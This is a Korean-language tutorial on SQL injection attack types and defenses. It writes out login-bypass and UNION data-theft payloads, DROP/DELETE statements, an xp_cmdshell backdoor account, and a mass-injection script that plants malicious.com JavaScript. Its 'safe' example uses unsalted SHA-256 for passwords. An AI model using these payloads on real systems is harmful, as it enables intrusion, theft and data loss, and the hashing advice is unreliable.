


## 개요

SQL Injection은 데이터베이스를 대상으로 하는 가장 위험한 웹 공격 중 하나입니다. 이 문서에서는 SQL Injection의 개념, 다양한 공격 종류(Error-based, Union-based, Blind, Time-based, Mass SQL Injection, Stored Procedure), 그리고 효과적인 방어 방법을 학습합니다.

## SQL Injection 개념

### 정의

SQL(Structured Query Language)은 데이터베이스의 데이터를 관리하기 위한 언어입니다. SQL Injection은 악의적으로 Query 구문 또는 입력 값을 조작하여 데이터베이스에 접근하여 공격하는 기법입니다.

**핵심 특징:**
- 웹 애플리케이션의 입력값을 조작하여 데이터베이스 쿼리를 변조
- 데이터베이스의 정보 유출, 변조, 삭제 가능
- 인증 우회, 권한 상승 등 심각한 보안 위협
- OWASP Top 10에 지속적으로 포함되는 중요 취약점

### 공격 흐름



## SQL Injection 종류

### 1. Classic SQL Injection

#### Error-based SQLi (에러 기반)

의도적으로 에러를 발생시켜 에러 메시지를 통해 데이터베이스 정보를 수집하는 기법입니다.

**공격 예시:**
```sql
-- 데이터베이스 이름 확인
' and DB_NAME() > 1 --

-- 에러 메시지:
-- Conversion failed when converting the nvarchar value 'myDatabase' to data type int.
```

**테이블 정보 수집:**
```sql
' and 1=(SELECT TOP 1 table_name FROM information_schema.tables) --
```

**실전 예시:**
```
http://example.com/product.php?id=1' and DB_NAME() > 1--

에러 출력:
Microsoft OLE DB Provider for ODBC Drivers error '80040e07'
[Microsoft][ODBC SQL Server Driver][SQL Server]Syntax error converting the nvarchar value 'shopping_db' to a column of data type int.
```

#### Union-based SQLi (유니온 기반)

2개 이상의 쿼리를 UNION으로 결합하여 정보를 얻는 방식입니다.

**UNION 구문:**
```sql
SELECT column1, column2 FROM table1
UNION
SELECT column1, column2 FROM table2
```

**조건:**
- 컬럼의 개수가 같아야 함
- 데이터 형식이 호환되어야 함

**공격 단계:**

**1단계: 컬럼 개수 확인**
```sql
' ORDER BY 1--   (성공)
' ORDER BY 2--   (성공)
' ORDER BY 3--   (성공)
' ORDER BY 4--   (에러) → 컬럼 개수는 3개
```

**2단계: UNION SELECT로 출력 위치 확인**
```sql
' UNION SELECT 1, 2, 3--

-- 화면에 2, 3이 출력된다면 2번, 3번 위치에 데이터 출력 가능
```

**3단계: 데이터베이스 정보 확인**
```sql
' UNION SELECT 1, version(), database()--
' UNION SELECT 1, user(), @@version--
```

**4단계: 테이블 이름 확인**
```sql
' UNION SELECT 1, table_name, 3 FROM information_schema.tables WHERE table_schema=database()--
```

**5단계: 컬럼 이름 확인**
```sql
' UNION SELECT 1, column_name, 3 FROM information_schema.columns WHERE table_name='users'--
```

**6단계: 데이터 추출**
```sql
' UNION SELECT 1, user_id, user_pw FROM users--
```

**실전 예시:**
```
http://example.com/news.php?id=1' UNION SELECT 1,2,3--

화면에 표시: [뉴스 제목] 2 [뉴스 내용] 3

http://example.com/news.php?id=1' UNION SELECT 1,user_id,user_pw FROM admin--

화면에 표시: [뉴스 제목] admin [뉴스 내용] hashed_password
```

### 2. Blind SQL Injection

데이터베이스 에러 페이지 등이 노출되지 않고 취약점 존재가 확인이 어려울 경우 사용하는 기법입니다.

#### Boolean-based Blind SQLi (참/거짓 기반)

참과 거짓 페이지 반응으로 데이터베이스 구조를 파악하는 공격 기법입니다.

**사용 함수:**
- `substr(string, start, length)`: 문자열의 일부 추출
- `ascii(char)`: 문자를 ASCII 코드로 변환
- `length(string)`: 문자열의 길이 반환
- `substring(string, start, length)`: 시작부분부터 끝부분까지 문자 출력

**공격 예시:**

**기본 참/거짓 테스트:**
```sql
' and 1=1--   (참 → 정상 페이지)
' and 1=2--   (거짓 → 에러/빈 페이지)
```

**데이터베이스 이름 길이 확인:**
```sql
' and length(database()) = 5--  (거짓)
' and length(database()) = 6--  (거짓)
' and length(database()) = 7--  (참) → DB 이름은 7글자
```

**데이터베이스 이름 한 글자씩 확인:**
```sql
' and substring(database(), 1, 1) = 'a'--  (거짓)
' and substring(database(), 1, 1) = 'b'--  (거짓)
' and substring(database(), 1, 1) = 's'--  (참) → 첫 글자는 's'

' and substring(database(), 2, 1) = 'h'--  (참) → 두 번째 글자는 'h'
' and substring(database(), 3, 1) = 'o'--  (참) → 세 번째 글자는 'o'

결과: shopping
```

**테이블명 확인:**
```sql
' and 'a' = substring((SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 0,1), 1, 1)--
```

**실전 시나리오:**

| 쿼리 | 결과 페이지 | 의미 |
|-----|---------|------|
| `?id=1' and 1=1--` | 정상 페이지 | 취약점 존재 |
| `?id=1' and 1=2--` | 빈 페이지 | SQL 실행됨 |
| `?id=1' and 'test'='test'--` | 정상 페이지 | 문자열 비교 가능 |
| `?id=1' and 'a'=substring('admin', 1, 1)--` | 정상 페이지 | 첫 글자는 'a' |

#### Time-based Blind SQLi (시간 지연 기반)

응답 시간으로 쿼리 결과가 참인지 거짓인지 판단하는 기법입니다.

**사용 함수:**
- `SLEEP(n)`: MySQL에서 n초 대기
- `WAITFOR DELAY '00:00:0n'`: MS SQL Server에서 n초 대기
- `BENCHMARK(count, expr)`: MySQL에서 expr을 count번 실행
- `pg_sleep(n)`: PostgreSQL에서 n초 대기

**MySQL 공격 예시:**
```sql
-- 기본 시간 지연 테스트
' or sleep(5)--

-- 조건부 시간 지연
' and if(1=1, sleep(5), 0)--  (5초 지연 → 참)
' and if(1=2, sleep(5), 0)--  (즉시 응답 → 거짓)

-- 데이터베이스 이름 길이 확인
' and if(length(database())=7, sleep(5), 0)--

-- 데이터베이스 이름 한 글자씩 확인
' and if(substring(database(),1,1)='s', sleep(5), 0)--
```

**MS SQL Server 공격 예시:**
```sql
'; IF (1=1) WAITFOR DELAY '00:00:05'--
'; IF (SELECT COUNT(*) FROM users)>0 WAITFOR DELAY '00:00:05'--
```

**PostgreSQL 공격 예시:**
```sql
'; SELECT CASE WHEN (1=1) THEN pg_sleep(5) ELSE pg_sleep(0) END--
```

**실전 예시:**
```
http://example.com/login.php?user=admin' and if(length(password)>10, sleep(5), 0)--

응답 시간: 즉시 → 비밀번호는 10자 이하

http://example.com/login.php?user=admin' and if(length(password)>8, sleep(5), 0)--

응답 시간: 5초 → 비밀번호는 8자 초과
```

### 3. Mass SQL Injection

한 번의 공격으로 대량의 데이터베이스 값을 변조하여 홈페이지에 치명적인 영향을 끼치는 공격입니다.

**공격 방식:**
- 일부분 HEX 인코딩
- 전체 HEX 인코딩

**공격 흐름:**



**공격 예시:**
```sql
-- 모든 테이블의 모든 텍스트 컬럼에 악성 스크립트 삽입
DECLARE @T VARCHAR(255), @C VARCHAR(255)
DECLARE Table_Cursor CURSOR FOR
SELECT a.name, b.name FROM sysobjects a, syscolumns b
WHERE a.id=b.id AND a.xtype='u' AND
(b.xtype=99 OR b.xtype=35 OR b.xtype=231 OR b.xtype=167)

OPEN Table_Cursor
FETCH NEXT FROM Table_Cursor INTO @T, @C

WHILE(@@FETCH_STATUS=0)
BEGIN
    EXEC('UPDATE ['+@T+'] SET ['+@C+']=CAST(['+@C+'] AS VARCHAR(8000))+
    ''<script src="http://malicious.com/evil.js"></script>''')
    FETCH NEXT FROM Table_Cursor INTO @T, @C
END

CLOSE Table_Cursor
DEALLOCATE Table_Cursor
```

**HEX 인코딩 우회:**
```sql
-- 원본
<script src="http://evil.com/malware.js"></script>

-- HEX 인코딩
0x3C7363726970742073726...

-- 공격 쿼리
UPDATE products SET description = description + 0x3C7363726970742073726...
```

### 4. Stored Procedure SQL Injection

저장 프로시저는 일련의 쿼리를 하나의 함수처럼 실행하기 위한 쿼리의 집합입니다.

**MS SQL 확장형 저장 프로시저:**

**xp_cmdshell: 관리자 권한의 임의 명령 수행**
```sql
-- 시스템 명령어 실행
EXEC master.dbo.xp_cmdshell 'ping 192.168.1.1'
EXEC master.dbo.xp_cmdshell 'net user hacker hacked123 /add'
EXEC master.dbo.xp_cmdshell 'net localgroup administrators hacker /add'

-- 파일 읽기
EXEC master.dbo.xp_cmdshell 'type c:\windows\system32\drivers\etc\hosts'

-- 디렉터리 조회
EXEC master.dbo.xp_cmdshell 'dir c:\'
```

**xp_cmdshell 활성화:**
```sql
-- xp_cmdshell 활성화 (기본적으로 비활성화됨)
EXEC sp_configure 'show advanced options', 1
RECONFIGURE
EXEC sp_configure 'xp_cmdshell', 1
RECONFIGURE
```

## SQL Injection 공격 예시

### 로그인 우회

**취약한 코드:**
```php
<?php
$username = $_POST['username'];
$password = $_POST['password'];

$query = "SELECT * FROM users WHERE username='$username' AND password='$password'";
$result = mysqli_query($conn, $query);

if (mysqli_num_rows($result) > 0) {
    echo "로그인 성공";
} else {
    echo "로그인 실패";
}
?>
```

**공격 입력:**
```
ID: admin'--
PW: (아무거나)

실행되는 쿼리:
SELECT * FROM users WHERE username='admin'--' AND password=''

설명: -- 이후는 주석 처리되어 비밀번호 검증이 무시됨
```

**다양한 우회 기법:**
```sql
-- OR 구문 사용
admin' OR '1'='1
admin' OR 1=1--
admin' OR 'a'='a

-- 항상 참인 조건
' OR '1'='1'--
' OR 1=1#
') OR ('1'='1

-- UNION 사용
' UNION SELECT 'admin', 'password'--
```

### 데이터 조회

**사용자 정보 탈취:**
```sql
' UNION SELECT user_id, user_pw, email FROM users--
' UNION SELECT null, concat(user_id,':',user_pw), null FROM users--
```

**관리자 정보 조회:**
```sql
' UNION SELECT 1, admin_id, admin_pw FROM admin_table WHERE role='admin'--
```

### 데이터 변조

**비밀번호 변경:**
```sql
'; UPDATE users SET password='hacked' WHERE username='admin'--
```

**권한 상승:**
```sql
'; UPDATE users SET role='admin' WHERE username='attacker'--
```

### 데이터 삭제

**테이블 삭제:**
```sql
'; DROP TABLE users--
'; TRUNCATE TABLE products--
```

**데이터 삭제:**
```sql
'; DELETE FROM orders WHERE 1=1--
```

## SQL Injection 대응 방안

### 1. Prepared Statement (파라미터화된 쿼리)

가장 효과적인 방어 방법입니다. 쿼리의 구조를 먼저 정의하고, 사용자 입력은 단순 데이터로만 처리합니다.

**PHP (PDO):**
```php
<?php
// 안전한 코드
$stmt = $pdo->prepare("SELECT * FROM users WHERE username = ? AND password = ?");
$stmt->execute([$username, $password]);
$user = $stmt->fetch();

// 또는 Named Parameters
$stmt = $pdo->prepare("SELECT * FROM users WHERE username = :username AND password = :password");
$stmt->execute(['username' => $username, 'password' => $password]);
?>
```

**PHP (MySQLi):**
```php
<?php
$stmt = $mysqli->prepare("SELECT * FROM users WHERE username = ? AND password = ?");
$stmt->bind_param("ss", $username, $password);
$stmt->execute();
$result = $stmt->get_result();
?>
```

**Java (JDBC):**
```java
String query = "SELECT * FROM users WHERE username = ? AND password = ?";
PreparedStatement pstmt = connection.prepareStatement(query);
pstmt.setString(1, username);
pstmt.setString(2, password);
ResultSet rs = pstmt.executeQuery();
```

**Python (SQLite):**
```python
cursor.execute("SELECT * FROM users WHERE username = ? AND password = ?", (username, password))
```

**특징:**
- 바인딩 변수를 사용했을 때 쿼리의 문법 처리 과정이 미리 선수행됨
- 바인딩 데이터는 SQL 문법적 의미를 가질 수 없음
- 바인딩 데이터는 SQL 문법이 아닌 내부의 인터프리터나 컴파일 언어로 처리
- 바인딩 변수에 SQL 공격 쿼리를 입력해도 의미있는 쿼리로 동작하지 않음

### 2. 특수문자 필터링

**특수문자 목록:**
```
'  (싱글 쿼터)
"  (더블 쿼터)
/  (슬래시)
\  (백슬래시)
;  (세미콜론)
:  (콜론)
%  (퍼센트)
-  (하이픈)
+  (플러스)
<  (작다)
>  (크다)
(  (여는 괄호)
)  (닫는 괄호)
#  (해시)
&  (앰퍼샌드)
```

**PHP 예시:**
```php
<?php
// 이스케이프 처리
$username = mysqli_real_escape_string($conn, $_POST['username']);
$password = mysqli_real_escape_string($conn, $_POST['password']);

// 또는 addslashes() 사용
$username = addslashes($_POST['username']);
?>
```

**PHP Magic Quotes (구버전):**
```php
<?php
// php.ini 설정
magic_quotes_gpc = On

// ' " \ NULL 앞에 역슬래시 자동 추가
?>
```

### 3. 문자열 필터링

**위험한 SQL 키워드:**
```
@variable
@@variable
print
set
or
union
and
insert
update
delete
drop
create
alter
select
exec
execute
xp_
sp_
openrowset
```

**필터링 예시:**
```php
<?php
function filterSQLKeywords($input) {
    $keywords = ['union', 'select', 'insert', 'update', 'delete', 'drop',
                 'exec', 'script', 'javascript', 'alert', 'xp_', 'sp_'];

    foreach ($keywords as $keyword) {
        if (stripos($input, $keyword) !== false) {
            return false;
        }
    }

    return true;
}

if (!filterSQLKeywords($_POST['username'])) {
    die('유효하지 않은 입력입니다.');
}
?>
```

### 4. 입력값 검증

**화이트리스트 방식:**
```php
<?php
// ID는 숫자만 허용
if (!preg_match('/^[0-9]+$/', $_GET['id'])) {
    die('유효하지 않은 ID입니다.');
}

// 사용자명은 영문자와 숫자만 허용
if (!preg_match('/^[a-zA-Z0-9]+$/', $_POST['username'])) {
    die('사용자명은 영문자와 숫자만 가능합니다.');
}

// 이메일 형식 검증
if (!filter_var($_POST['email'], FILTER_VALIDATE_EMAIL)) {
    die('유효하지 않은 이메일입니다.');
}
?>
```

### 5. 에러 메시지 숨김

**정형화된 에러 메시지 출력:**
```php
<?php
// 개발 환경
ini_set('display_errors', 1);
error_reporting(E_ALL);

// 운영 환경
ini_set('display_errors', 0);
error_reporting(0);

// 사용자 정의 에러 페이지
try {
    $result = $pdo->query($sql);
} catch (PDOException $e) {
    // 로그에만 기록
    error_log($e->getMessage());

    // 사용자에게는 일반 메시지
    die('데이터베이스 오류가 발생했습니다.');
}
?>
```

### 6. 데이터베이스 권한 최소화

**원칙:**
- 웹 애플리케이션 DB 계정에 system 권한(sysdba, sa, root 등)을 부여하지 않기
- 필요한 최소한의 권한만 부여

**MySQL 예시:**
```sql
-- 읽기 전용 계정
CREATE USER 'webapp_read'@'localhost' IDENTIFIED BY 'password';
GRANT SELECT ON webapp_db.* TO 'webapp_read'@'localhost';

-- 일반 웹 앱 계정 (읽기/쓰기)
CREATE USER 'webapp'@'localhost' IDENTIFIED BY 'password';
GRANT SELECT, INSERT, UPDATE ON webapp_db.* TO 'webapp'@'localhost';

-- DELETE, DROP 권한은 부여하지 않음
```

### 7. 저장 프로시저 보안

**xp_cmdshell 비활성화:**
```sql
-- MS SQL Server
EXEC sp_configure 'show advanced options', 1
RECONFIGURE
EXEC sp_configure 'xp_cmdshell', 0
RECONFIGURE
```

### 8. 웹 애플리케이션 방화벽 (WAF)

**ModSecurity 규칙 예시:**
```apache
# SQL Injection 패턴 차단
SecRule ARGS "@detectSQLi" \
    "id:1001,phase:2,deny,status:403,msg:'SQL Injection Detected'"

# UNION 공격 차단
SecRule ARGS "@rx union.*select" \
    "id:1002,phase:2,deny,status:403,msg:'SQL Injection: UNION SELECT'"
```

## 실전 시나리오

### 시나리오 1: 로그인 페이지 SQL Injection

**취약한 로그인 폼:**
```php
<?php
$username = $_POST['username'];
$password = $_POST['password'];

$query = "SELECT * FROM users WHERE username='$username' AND password='$password'";
$result = mysqli_query($conn, $query);

if (mysqli_num_rows($result) > 0) {
    $_SESSION['logged_in'] = true;
    header('Location: dashboard.php');
}
?>
```

**공격:**
```
Username: admin'--
Password: (아무거나)

또는

Username: admin' OR '1'='1
Password: admin' OR '1'='1
```

**안전한 코드:**
```php
<?php
$stmt = $pdo->prepare("SELECT * FROM users WHERE username = ? AND password = ?");
$stmt->execute([$username, hash('sha256', $password)]);
$user = $stmt->fetch();

if ($user) {
    $_SESSION['logged_in'] = true;
    $_SESSION['user_id'] = $user['id'];
    header('Location: dashboard.php');
} else {
    echo '아이디 또는 비밀번호가 일치하지 않습니다.';
}
?>
```

### 시나리오 2: 게시판 상세보기 페이지

**취약한 코드:**
```php
<?php
$id = $_GET['id'];
$query = "SELECT * FROM posts WHERE id = $id";
$result = mysqli_query($conn, $query);
?>
```

**공격:**
```
http://example.com/view.php?id=1 UNION SELECT 1,user_id,user_pw,4,5 FROM admin--
```

**안전한 코드:**
```php
<?php
// 1. 입력값 검증
if (!preg_match('/^[0-9]+$/', $_GET['id'])) {
    die('유효하지 않은 ID입니다.');
}

// 2. Prepared Statement 사용
$stmt = $pdo->prepare("SELECT * FROM posts WHERE id = ?");
$stmt->execute([$_GET['id']]);
$post = $stmt->fetch();
?>
```

## 마무리

SQL Injection은 웹 애플리케이션에서 가장 위험한 취약점 중 하나로, Error-based, Union-based, Blind, Time-based, Mass SQL Injection 등 다양한 공격 기법이 존재합니다. 효과적인 방어를 위해서는 **Prepared Statement 사용이 필수**이며, 입력값 검증, 에러 메시지 숨김, 최소 권한 원칙 등 다층 방어 전략을 적용해야 합니다.
